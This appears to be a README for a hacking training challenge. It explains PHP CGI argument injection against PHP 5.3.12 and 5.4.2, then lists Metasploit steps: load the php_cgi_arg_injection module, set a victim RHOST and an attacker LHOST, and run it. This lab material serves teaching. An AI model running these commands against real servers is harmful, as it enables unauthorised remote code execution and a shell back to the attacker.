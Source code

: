 # HackTheStack

Participants will need the password to log into a Kali Linux VM for the challenge to access Metasploit

This is simple hack challenge where you use the tool Metasploit to exploit a known vulnerability in a PHP server, with the version 5.3.12 and 5.4.2.
This exploit is also called PHP CGI arg injection, where the exploit takes advantage of -d flag to set the php.ini directives to achieve code execution. In short this leads to access to CGI binaries, and can run your code remotely.

Here's how you'd do it syntactically using metasploit.

1) Open the terminal in an environment that has Metasploit already installed. (E.g Kali Linux) <br />
2) Type "msf" in the command line (without the double quotes) <br />
3) Type use exploit/multi/http/php_cgi_arg_injection <br />
4) Type SET RHOST <VICTIM_IP> where VICTIM_IP is what it sounds like <br />
5) Type SET LHOST <ATTACKER_IP> where ATTACKER_IP is also what it sounds like <br />
6) Type "run" (without the double quotes) <br />
7) Don't be nasty <br />
